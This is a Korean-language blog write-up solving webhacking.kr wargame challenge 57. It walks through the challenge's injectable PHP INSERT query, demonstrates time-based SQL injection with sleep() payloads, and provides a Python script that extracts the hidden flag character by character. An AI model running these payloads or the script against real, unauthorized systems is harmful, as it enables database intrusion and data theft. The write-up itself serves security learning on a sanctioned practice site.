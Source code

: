 ```yaml
---
title: "[webhacking.kr] 57번 문제 풀이[Time-based SQL Injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - sql injection
  - time-based
toc: true
toc_sticky: true
toc_label: "57번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 57번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
  ![image](https://user-images.githubusercontent.com/33647663/154034732-b90237e9-6f81-40af-bc0e-c4ccb895f0c2.png)

  
  ```php
<?php
  $db = dbconnect();
  if($_GET['msg'] && isset($_GET['se'])){
    $_GET['msg'] = addslashes($_GET['msg']);
    $_GET['se'] = addslashes($_GET['se']);
    if(preg_match("/select|and|or|not|&|\||benchmark/i",$_GET['se'])) exit("Access Denied");
    mysqli_query($db,"insert into chall57(id,msg,pw,op) values('{$_SESSION['id']}','{$_GET['msg']}','{$flag}',{$_GET['se']})");
    echo "Done<br><br>";
    if(rand(0,100) == 1) mysqli_query($db,"delete from chall57");
  }
?>
  ```

# 문제 풀이
  인젝션을 해야 하는 부분은 다음과 같습니다.

```sql
insert into chall57(id,msg,pw,op) values('id','{msg}','flag',{se})
```

사용자 단에서 변경 가능한 부분은 msg와 se 부분이 있습니다. 이문제가 기존의 sql 문제들과 다른점은 화면에 출력되는 값이 없다는 점입니다. 즉 `select` 문이 없이 DB에 있는 데이터의 값을 읽어와야 합니다. 

보통의 blind sql injection의 경우 참/ 거짓의 결과가 나오기 때문에 원하는 쿼리문의 결과를 알 수 있었습니다. 지금같은 경우는 insert 문을 통해서 원하는 쿼리문의 결과를 알아야 하는데 그럴때 사용 가능한 기법이 Time-Based SQL Injection 입니다. 

이 기법은 다음과 같이 이용하여, 서버에서 오는 응답시간을 보고 쿼리문의 참/거짓을 판단할 수 있습니다.

```sql
insert into chall57 values('id','msg','flag',if(1=1,sleep(3),1)) #참인경우 응답이 3초뒤에 나옵니다

insert into chall57 values('id','msg','flag',if(1=2,sleep(3),1)) # 거짓인 경우 응답이 바로 나옵니다.

```

![image](https://user-images.githubusercontent.com/33647663/154036523-6e1a6b40-034a-40bb-b473-0cee9257927d.png)

문제에서 적용하면 다음과 같이 3초뒤에 화면이 새로고침 됩니다.

![image](https://user-images.githubusercontent.com/33647663/154036917-0ca3d3dc-eeec-422d-88bc-a87c58c227d4.png)



Time-Based SQL Injection은 일반적으로 Sleep 함수와 benchmark 함수를 이용할 수 있는데, 이번 문제에서는 benchmark 함수가 필터링 되어 있습니다. 다른 문제에서 만약 sleep이 필터링 되어 있다면 benchmark 함수를 사용 가능하다는 점도 인지하고 있으셔야 합니다.


파이썬 코드로 다음과 같이 작성하였습니다.

```python
from requests.exceptions import ReadTimeout
import requests
import string

url = "https://webhacking.kr/challenge/web-34/index.php"
params = {'msg' : '1234'}
flag_length = 0
for i in range(20,30):
    try:
        payload = 'if((length(pw)={}),sleep(3),1)'.format(i)
        params['se'] = payload
        requests.get(url,params=params,timeout=2)
    except ReadTimeout:
        print("FLAG's length is",i)
        flag_length=i
        break    

# FLAG 길이 24
flag = ''
for i in range(1,flag_length+1):
    for character in string.printable:
        try:
            payload = 'if((ascii(substr(pw,{},1))={}),sleep(3),1)'.format(i,ord(character))
            params['se'] = payload
            requests.get(url,params=params,timeout=2)
        except ReadTimeout:
            flag = flag + character
            print("\r[+]",flag,end='')
            break
print()
print('FLAG : ',flag)
```

![image](https://user-images.githubusercontent.com/33647663/154037062-6febfa07-d10d-410a-a3fa-5a4df15f98a7.png)